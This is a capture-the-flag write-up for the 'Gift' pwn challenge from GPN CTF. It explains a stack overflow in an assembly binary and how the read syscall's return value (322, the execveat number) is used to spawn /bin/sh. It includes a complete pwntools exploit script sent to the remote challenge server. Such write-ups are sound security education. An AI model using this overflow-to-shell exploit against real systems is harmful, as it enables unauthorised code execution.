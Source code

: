 # Gift

|||
|-|-|
|  **CTF**  |  [GPN CTF](https://play.ctf.kitctf.de/) [(CTFtime)](https://ctftime.org/event/2257)  |
|  **Author** |  intrigus |
|  **Category** |  Pwning |
|  **Solves** |  9  |
| **Files** |  [gift.tar.gz](<gift.tar.gz>)  |

![image](https://github.com/0xM4hm0ud/CTF-Writeups/assets/80924519/14a3d9c5-8cd7-4760-872d-ca4e7ca5ce5f)

# Solution

After unzipping, we get the source code of the challenge:

```s
.section .text
    .global _start

read_input:
    # Read 314 bytes + 16 free bytes from stdin to the stack
    sub $314, %rsp                # Make room for the input
    mov $0, %rax                  # System call number for read
    mov $0, %rdi                  # File descriptor for stdin
    mov %rsp, %rsi                # Address of the stack
    mov $330, %rdx                # Number of bytes to read
    syscall                       # Call the kernel
    add $314, %rsp                # Restore the stack pointer
    ret

_start:
    # Print the message to stdout
    mov $1, %rax                  # System call number for write
    mov $1, %rdi                  # File descriptor for stdout
    mov $message, %rsi            # Address of the message string
    mov $message_len, %rdx        # Length of the message string
    syscall                       # Call the kernel

    call read_input

    # Exit the program
    mov $60, %rax                 # System call number for exit
    xor %rdi, %rdi                # Exit status 0
    xor %rsi, %rsi                # I like it clean
    xor %rdx, %rdx                # I like it clean
    syscall                       # Call the kernel

message: .asciz "Today is a nice day so you get 16 bytes for free!\n"
message_len = . - message
```

The challenge is made in assembly. It does 3 main things:

1. Prints the message to stdout
2. Read input from the user
3. Exit the program

When reading our input, it gives 16 bytes extra as a gift. We can see that it subtracts 314 from rsp. We can send 330 bytes. This means that we have an overflow. We can hit the rip with 314 bytes.

The size of rip is 8 bytes. Thus, we can send 314 + 8(this will be placed in rip) = 322 bytes to control rip. The read syscall returns the amount it reads in rax. 
If we check what the syscall of 322/0x142 is, we see that it's `execveat`. With this, we can execute commands. At the ret of `read_input`, rsi still contains the address of our input. 
So we can put `/bin/sh` at the start of our buffer.

When we overflow and jump to the syscall gadget, we can see:

![image](https://github.com/0xM4hm0ud/CTF-Writeups/assets/80924519/bc221996-9e29-4cec-9d9c-86c85a5dcc98)

We see that rdx is not empty, so it will segfault. Luckily, there is a gadget that xors rdx before calling syscall. It's used when exiting the program (check the source above).

![image](https://github.com/0xM4hm0ud/CTF-Writeups/assets/80924519/46423d1f-6fad-4fe3-9f08-53a043e89895)

So my final script looks like this:

```py
from pwn import *

def start(argv=[], *a, **kw):
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:
        return process([exe] + argv, *a, **kw)

gdbscript = '''
b *read_input+0x28
c
'''.format(**locals())

exe = './gift'
elf = context.binary = ELF(exe, checksec=False)
context.log_level = 'info'
context(terminal=['tmux', 'split-window', '-h'])

REMOTE = True

if REMOTE:
    io = start(ssl=True)
else:
    io = start()
    
payload = flat(
    b'/bin/sh\x00',
    b'A' * (314 - 8),
    0x401059
    )
io.sendafter(b'!\n', payload)

io.interactive()
```

If we run this on remote, we can get the flag:

![image](https://github.com/0xM4hm0ud/CTF-Writeups/assets/80924519/90f88cdc-eece-4502-bfdc-9c5ec867d497)



